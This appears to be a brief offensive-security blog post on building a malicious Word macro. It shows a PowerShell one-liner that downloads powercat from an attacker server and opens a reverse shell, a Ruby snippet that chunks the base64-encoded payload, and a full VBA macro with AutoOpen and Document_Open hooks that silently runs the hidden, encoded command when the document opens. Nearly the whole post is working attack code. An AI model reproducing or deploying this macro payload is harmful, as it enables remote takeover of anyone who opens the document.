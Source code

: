 ```yaml
---
layout: post
title: office macros
titledate: 09/05/23
tags: ["infosec","offsec", "macros", "powershell", "shell"]
---
```


when creating a macro in word

view -> macros -> view macros -> TitleMacro and choose your current document from Macros In

AutoOpen and Document_Open are necssary to automatically execute our macro upon the document execution

for our payload we'll download powercat from our hosted web server and base64 it UTF16-LE

    IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.x.x/powercat.ps1');powercat -c 192.168.x.x -p 443 -e powershell

we have a string size limitation so we need to split our string into length of 50

ruby one liner 
```ruby  
payload = SUVYKE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vMTkyLjE2OC40NS4xNTQvcG93ZXJjYXQucHMxJyk7cG93ZXJjYXQgLWMgMTkyLjE2OC40NS4xNTQgLXAgNDQzIC1lIHBvd2Vyc2hlbGw=
payload.chars.each_slice(50).map(&:join).each{|arr|p "Str = Str + #{arr}"}
```

vb macro  

```vb
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()
  Dim Str as String

  Str = Str + "powershell.exe -nop -w hidden -enc "
  Str = Str + "SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdA"
  Str = Str + "BlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBE"
  Str = Str + "AG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AH"
  Str = Str + "AAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEANQA0AC8A"
  Str = Str + "cABvAHcAZQByAGMAYQB0AC4AcABzADEAJwApADsAcABvAHcAZQ"
  Str = Str + "ByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAu"
  Str = Str + "ADEANQA0ACAALQBwACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AG"
  Str = Str + "UAcgBzAGgAZQBsAGwA"
  
  CreateObject("Wscript.Shell").Run Str
End Sub
```